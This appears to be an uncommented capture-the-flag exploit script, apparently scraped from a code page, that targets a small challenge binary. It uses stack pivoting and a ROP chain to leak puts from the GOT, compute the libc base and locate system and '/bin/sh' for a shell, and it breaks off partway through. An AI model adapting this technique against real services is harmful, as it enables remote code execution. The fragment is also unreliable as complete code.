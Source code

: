 ```bash
def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

bss6 = elf.bss() + 0x600
li('bss = '+hex(bss6))

ret = 0x000000000040101a 
rdi = 0x00000000004013d3
leave_ret = 0x00000000004012d6
ret = 0x000000000040101a

sla('num:\n','286129175')
ru('gift:')
stack = int(p.recv(14),16) 
li(hex(stack))

main = 0x4012D8
back = 0x40129B
read = 0x4012BA
sys = 0x4010D4

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

pl = b'a'*0x20+p64(stack)+p64(read) #1
p.send(pl)


pl = b'a'*0x20+p64(stack+0x20)+p64(read) #2
p.send(pl)

'''
pl = p64(bss6+0x20+0x10)+p64(ret)+p64(rdi)+b"/bin/sh"+p64(sys)
'''

pl = p64(stack+0x20+0x10)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3 
p.send(pl)

p.recv()

#libc_base = uu64(r(14))-libc.sym['puts']
libc_base = uu64(r(14))-0xa000000000000 -libc.sym['puts']
li(hex(libc_base))


system= libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))

sla('num:\n','286129175')

p.recvuntil('Success!!!\n')
ru('gift:')
stack0 = int(p.recv(14),16) 


pl = b'a'*0x20+p64(stack0)+p64(read) #4
p.send(pl)

pl = b'a'*0x20+p64(stack0+0x20)+p64(read) #5
p.send(pl)

r12 = 0x000000000002f709+libc_base
```